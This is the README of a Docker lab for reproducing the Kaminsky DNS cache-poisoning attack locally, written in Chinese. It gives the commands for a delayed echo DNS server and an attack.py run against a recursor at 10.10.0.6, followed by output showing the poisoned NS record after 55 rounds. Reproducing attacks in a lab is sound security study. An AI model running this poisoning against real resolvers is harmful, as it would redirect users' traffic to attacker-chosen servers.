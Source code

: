 # kaminsky
## 说明
本仓库环境用于本地复现kaminsky攻击

## 环境搭建
```shell
docker compose up --build
```

## 实验复现
- 开启echo服务伪装为带有延迟的DNS权威服务器
    ```shell
    docker compose exec -it attacker python3 echo.py &

    # --- Slow DNS Echo Server ---
    [*] Preparing to listen on 0.0.0.0:53...
    [*] Each request will be responded to after a 0.5 second delay

    [*] Server started successfully, listening on port 53..
    ```

- 默认情况下，`recursor`的根服务器地址指向`attacker`(`10.10.0.8`)，无法正常解析`www.example.com`
    ```shell
    docker compose exec -it attacker dig @10.10.0.6 www.example.com

    ; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> @10.10.0.6 www.example.com
    ; (1 server found)
    ;; global options: +cmd
    ;; no servers could be reached
    # dig @10.10.0.6 www.example.com
    ;; communications error to 10.10.0.6#53: timed out
    ;; communications error to 10.10.0.6#53: timed out
    ;; communications error to 10.10.0.6#53: timed out

    ; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> @10.10.0.6 www.example.com
    ; (1 server found)
    ;; global options: +cmd
    ;; no servers could be reached
    ```

- 尝试投毒，将递归解析器的`ns-auth.example.com`缓存部分改为`auth`(`10.10.0.7`)，该地址部署了一个正常的权威服务器，可以响应`www.example.com`
    ```shell
    docker compose exec -it attacker python3 attack.py 10.10.0.6 example.com 10.10.0.7 -l -d 10.10.0.8

    Victim DNS: 10.10.0.6
    Target domain: example.com
    Spoofing IP: 10.10.0.7
    Method: loud

    Starting sequence

    Initializing multiprocessing pool with 32 worker processes.
    Starting loud attack. This may take a while...
    Attack round 1: Triggering query for 047wtn8nq4.example.com
    ```

- 投毒成功后，脚本将自动停止，显示轮数，以及投毒耗时
    ```shell
    ...
    Attack round 54: Triggering query for 74phcnksqt.example.com
    ...
    Attack round 55: Triggering query for rk7i3s4nkh.example.com
    SUCCESS! Cache poisoned for ns-auth.example.com -> 10.10.0.7
    It took: 0:05:19.464771
    ```

- 验证是否可以正常获取`www.example.com`地址
    ```shell
    docker compose exec -it attacker dig @10.10.0.6 www.example.com

    ; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> @10.10.0.6 www.example.com
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 26889
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;www.example.com.               IN      A

    ;; ANSWER SECTION:
    www.example.com.        86400   IN      A       1.2.3.4

    ;; AUTHORITY SECTION:
    example.com.            86352   IN      NS      ns-auth.example.com.

    ;; ADDITIONAL SECTION:
    ns-auth.example.com.    86352   IN      A       10.10.0.7

    ;; Query time: 0 msec
    ;; SERVER: 10.10.0.6#53(10.10.0.6) (UDP)
    ;; WHEN: Sun Aug 03 03:06:06 UTC 2025
    ;; MSG SIZE  rcvd: 98
    ```